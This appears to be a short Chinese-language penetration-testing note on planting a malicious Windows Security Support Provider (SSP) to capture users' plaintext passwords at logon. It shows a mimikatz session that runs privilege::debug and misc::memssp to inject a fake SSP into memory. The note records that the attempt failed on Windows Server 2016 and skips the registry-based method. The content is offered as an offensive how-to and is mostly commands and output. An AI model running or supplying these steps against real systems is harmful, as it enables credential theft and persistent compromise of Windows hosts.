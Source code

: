 可以自己写一个SSP，恶意SSP在系统登录的时候，获取到用户输入的明文密码

# 一、mimikatz 注入伪造的SSP
## 1、内存注入SSP
```plain
C:\Users\Administrator.SEC\Desktop\x64>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::memssp
Injected =)

mimikatz # exit
Bye!

C:\Users\Administrator.SEC\Desktop\x64>
```

![](../images/457ade4e01d93ae8f2cf39611d43c219.png)

WIndows Server 2016失败

## 2、注册表添加SSP
略...